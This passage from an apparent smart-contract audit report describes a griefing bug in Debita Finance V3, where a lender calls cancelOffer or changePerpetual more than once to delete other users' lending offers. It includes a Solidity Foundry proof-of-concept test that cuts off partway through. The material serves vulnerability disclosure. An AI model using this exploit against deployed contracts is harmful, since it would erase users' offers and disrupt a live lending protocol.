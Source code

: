 The same behavior can be achieved using [DebitaLendOffer-Implementation.sol::changePerpetual()](https://github.com/sherlock-audit/2024-11-debita-finance-v3-noahfigueras/blob/main/Debita-V3-Contracts/contracts/DebitaLendOffer-Implementation.sol#L178). As this function can be called also multiple times as long as their offer was fullfilled and is `perpetual`. 

### Impact
The protocol can be griefed by an attacker with a Lender position. The Attacker is able to delete all the lending offers in `DebitaLendOfferFactory.sol`. In consequence, all the deleted offers won't be able to be matched to create Loans with borrowers as their addresses get lost and won't be retrieved through [DebitaLendOfferFactory.sol::getActiveOrders()](https://github.com/sherlock-audit/2024-11-debita-finance-v3-noahfigueras/blob/main/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L222C14-L222C29)

### PoC
The following tests are written in [BasicDebitaAggregator.t.sol](https://github.com/sherlock-audit/2024-11-debita-finance-v3-noahfigueras/blob/main/Debita-V3-Contracts/test/local/Aggregator/BasicDebitaAggregator.t.sol).

```solidity
    function testAuditGriefingCancelOffer() public {
        bool[] memory oraclesActivated = allDynamicData.getDynamicBoolArray(1);
        uint[] memory ltvs = allDynamicData.getDynamicUintArray(1);
        uint[] memory ratio = allDynamicData.getDynamicUintArray(1);

        address[] memory acceptedPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory oraclesPrinciples = allDynamicData
            .getDynamicAddressArray(1);
        address[] memory lendOrders = allDynamicData
            .getDynamicAddressArray(5);

        ratio[0] = 1e18;
        oraclesPrinciples[0] = address(0x0);
        acceptedPrinciples[0] = AERO;
        oraclesActivated[0] = false;
        ltvs[0] = 0;

        // Create 5 Lend Orders
        for(uint i = 0; i < 5; i++) {
          lendOrders[i] = DLOFactoryContract.createLendOrder(
              true,
              oraclesActivated,
              false,
              ltvs,
              1000,
              8640000,
              86400,
              acceptedPrinciples,
              AERO,
              oraclesPrinciples,
              ratio,
              address(0x0),
              5e18
          );
        }

        uint256 length = DLOFactoryContract.getActiveOrders(0, 5).length;
        assertEq(length, 5);
        DLOImplementation lender1 = DLOImplementation(lendOrders[0]);

        // We cancel our own offer. 
        lender1.cancelOffer();
        // But this can be called again if we addFunds, causing deletion of offers
        // from DLOFactoryContract at index 0. 
```